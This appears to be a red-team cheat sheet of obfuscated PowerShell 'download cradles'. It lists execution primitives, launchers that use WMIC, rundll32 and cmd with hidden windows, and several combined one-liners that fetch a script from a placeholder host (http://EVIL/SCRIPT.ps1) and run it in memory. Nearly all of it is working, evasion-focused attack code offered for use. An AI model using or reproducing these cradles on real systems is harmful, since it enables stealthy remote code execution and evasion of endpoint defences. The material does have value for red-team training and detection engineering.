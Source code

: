 ### Download Cradles

#### 0) Extra goodies

- Obfuscated `FromBase64String` with `-bxor` nice for dynamic strings deobfuscation:
```
$t=([type]('{1}{0}'-f'vert','Con'));($t::(($t.GetMethods()|?{$_.Name-clike'F*g'}).Name).Invoke('Yk9CA05CA0hMV0I=')|%{$_-bxor35}|%{[char]$_})-join''
```

- The same as above but for UTF-16 base64 encoded strings:
```
$t=([type]('{1}{0}'-f'vert','Con'));-join[char[]]([uint16[]]$t::(($t.GetMethods()|?{$_.Name-clike'F*g'}).Name).Invoke('MAA7ACAAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUA')-ne0)
```

#### A) Powershell Code Execution primitives

   Phrase `(Function).Invoke()` may be rephrased as: `&(Function)`

   1. _Scriptblock_: 
   ```
   [scriptblock]::Create('Get-Service').Invoke()
   ```
   
   2. PS1.0 Invoke
   ```
   $ExecutionContext.(($ExecutionContext|Get-Member)[6].Name).(($ExecutionContext.(($ExecutionContext|Get-Member)[6].Name).PsObject.Methods|Where{$_.Name-ilike'In*'}).Name).Invoke('Get-Service')
   ```
   
   3. Get-Alias:
   ```
   &(DIR Alias:/I*X)'Get-Service'
   ```
   
   4. Get-Command:
   ```
   &(GCM I*e-E*)
   ```
   
   5. Powershell Runspace
   ```
   [PowerShell]::Create().(([PowerShell]::Create()|Member)[5].Name).Invoke('Get-Service').Invoke()
   ```
   
   6. Concatenated IEX:
   ```
   &(''.SubString.ToString()[67,72,64]-Join'')'Get-Service'
   ```
   
   7. _Invoke-AsWorkflow_ (PS3.0+)
   ```
   Invoke-AsWorkflow -Ex ('Get-Service')
   ```

#### B) Powershell Payload Download primitives

   1. Invoke-RestMethod (PS3.0+)
   ```
   ('http://EVIL/SCRIPT.ps1'|%{(IRM $_)})
   ```
   
   2. Obfuscated `Net.WebClient.DownloadString`:
   ```
   $w=(New-Object Net.WebClient);$w.(((($w).PsObject.Methods)|?{(Item Variable:\_).Value.Name-clike'D*g'}).Name).Invoke('http://EVIL/SCRIPT.ps1')
   ```
   
   3. Net.WebRequest:
   ```
   [IO.StreamReader]::new([Net.WebRequest]::Create('http://EVIL/SCRIPT.ps1').GetResponse().GetResponseStream()).ReadToEnd()
   ```
   
   4. `Msxml2.XMLHTTP` COM object:
   ```
   $c=New-Object -ComObject MsXml2.ServerXmlHttp;$c.Open('GET','http://EVIL/SCRIPT.ps1',0);$c.Send();$c.ResponseText
   ```

#### C) Operating-System Launcher primitives

   1. WMIC:
   ```
   WMIc  "pROCESs"    cALl     crEATE "PoWErSheLL -WInDowstyLE HIdDEn -NonINTErA  Get-Service"
   ```
   
   2. Rundll32 SHELL32.DLL,ShellExec_RunDLL
   ```
   RuNDlL32.exE SHELL32,ShellExec_RunDLL "POWERsHeLL" "-w  1"  " -NonInter  "  "-CO "     "Get-Service"
   ```
   
   3. Cmd + set VAR && Powershell iex VAR
   ```
   cmd  /c"sEt   sqm=Get-Service&&PowErsHeLl  -WinDoWstY hIDDeN -NoniNtERActi  -coMmand   .(   ${E`NV:Com`sp`ec}[4,26,25]-JOIn'')( (  ^&( \"{2}{1}{0}\"-f'm','eT-ITe','G' ) ( \"{1}{0}{2}\" -f'v:S','En','qm')  ).\"vaL`Ue\")"
   ```
   
   4. Cmd + Echo | Powershell - (stdin)
   ```
   CmD.exE /c"  ECho/Get-Service  |  PoWeRsheLL  -nOninT  -WindOw hiDDe  -ComM  (gcI 'vARiaBLE:eX*xT').vAluE.InvoKECOmmanD.InVOkESCript($inPut  )"
   ```
   
   5. Cmd + Echo | Clip && Powershell iex clipboard
   ```
   cmd   /C"  ECHO/Get-Service|cLIP&&  POweRsHElL  -Windo  hIDd  -NONINTe -St -ComMaN     . (  \"{0}{1}{2}\"-f'Ad','d-',(  \"{0}{1}\" -f 'Ty','pe') ) -AN (  \"{0}{2}{4}{1}{3}\"-f'P',(\"{0}{1}\" -f'a','tio'),'res',(  \"{0}{1}\" -f'n','Core'  ),'ent' )   ;    ^&   (  ( [sTriNG]${ve`R`B`oSepRE`F`eRENce}  )[1,3] +  'x'-joiN'' ) (( [WInDoWS.cLipBoARd]::( \"{1}{2}{0}\" -f't','Get','Tex').\"i`N`VoKE\"(  )) )   ; [Windows.Clipboard]::( \"{1}{0}\" -f'ar','Cle').\"I`Nv`OkE\"( )"
   ```
   

#### D) Combined Download Cradles

   1. PowerShell 3.0+
   ```
   IEX (iwr 'http://EVIL/SCRIPT.ps1')
   ```
   
   2. Normal download cradle
   ```
   IEX (New-Object Net.Webclient).downloadstring("http://EVIL/SCRIPT.ps1")
   ```

   3. Download Cradle combining _ScriptBlock_ + `Invoke-RestMethod`
   ```
   [scriptblock]::Create(('http://EVIL/SCRIPT.ps1'|%{(IRM $_)})).Invoke()
   ```
   
   4. `Msxml2.XMLHTTP` COM object with Scriptblock:
   ```
   $c=New-Object -ComObject MsXml2.ServerXmlHttp;$c.Open('GET','http://EVIL/SCRIPT.ps1',0);$c.Send();[scriptblock]::Create($c.ResponseText).Invoke()
   ```
   
   5. Minimized `Net.WebRequest` combined with _ScriptBlock_ execution:
   ``` 
   [scriptblock]::Create([IO.StreamReader]::new([Net.WebRequest]::Create('http://EVIL/SCRIPT.ps1').GetResponse().GetResponseStream()).ReadToEnd()).Invoke()
   ```

   6. A bit obfuscated `Net.WebClient.DownloadString` with Get-Alias IEX variant:
   ```
   $w=(New-Object Net.WebClient);$w.(((($w).PsObject.Methods)|?{(Item Variable:\_).Value.Name-clike'D*g'}).Name).Invoke('http://EVIL/SCRIPT.ps1')|&(DIR Alias:/I*X)
   ```
   
   7. Obfuscated `Net.HttpWebRequest` with _Get-Command IEX`:
   ```
   $h=[tYpE]('{1}{2}{0}'-f('pWebRe'+'quest'),'Ne','t.Htt');$v=((((gET-vAriABLE h).vAlue::Create('http://EVIL/SCRIPT.ps1').PSObject.Methods|?{$_.Name-clike'G*se'}).Invoke()).PSObject.Methods|?{$_.Name-clike'G*eam'}).Invoke();$r='';Try{While($r+=[Char]$v.ReadByte()){}}Catch{};&(GCM *ke-*pr*)$r
   ```